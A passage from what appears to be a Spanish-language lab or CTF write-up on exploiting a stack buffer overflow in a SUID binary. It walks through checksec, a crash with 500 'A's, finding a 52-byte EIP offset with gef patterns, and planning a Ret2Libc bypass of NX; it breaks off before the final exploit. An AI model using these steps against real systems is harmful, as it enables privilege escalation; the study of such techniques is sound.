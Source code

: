     gef> r
    gef> r EEEE
    [*] Message sent: EEEEEE

    disass main
    ```

    Aqui vemos cosas como el SUID y la llamada a la funccion **put**

1. Miramos la seguridad del binario

    ```bash
    checksec
    ```

    Aqui vemos quel NX esta abilitado. Esto quiere decir quel DEP (Data Execution Prevention) esta habilitado, lo que significa que no podemos redirigir
    el flujo del programa a la pila para ejecutar comandos a nivel de systema.

1. Lanzamos 500 A

    ```bash
    gef> r $(python -c 'print "A"*500')
    ```

    Aqui vemos que hemos sobrepassado el $eip que ahora apunta a 0x41414141 que son 4 "A"

1. Buscamos el offset necessario antes de sobrescribir el $eip

    ```bash
    gef> pattern create 100
    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
    
    gef> r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

    gef> pattern offset $eip
    [+] Found at offset 52 (little-endian search) likely
    ```

    Aqui vemos que el offset es de 52 caracteres.

1. Comprobamos poniendole 52 A y 4 B

    ```bash
    gef> r $(pyhton -c 'print "A"*52 + "B"*4')
    ```

    Y vemos que el $eip vale ahora 0x42424242 que son 4 "B"

Como aqui sabemos que no podemos ejecutar comandos desde la pila porque el NX esta habilitado, la primera cosa que nos pasa por la cabeza seria
usar la technica `Ret2Libc`. Lo que tenemos que ver para efectuar esta tecnica seria ver si hay que burlar el ASLR en caso de que haya aleatorisacion 
en las direcciones de la memoria.

Esto se controla desde la maquina victima.

1. miramos si la architectura de la maquina es 32 o 64 bits
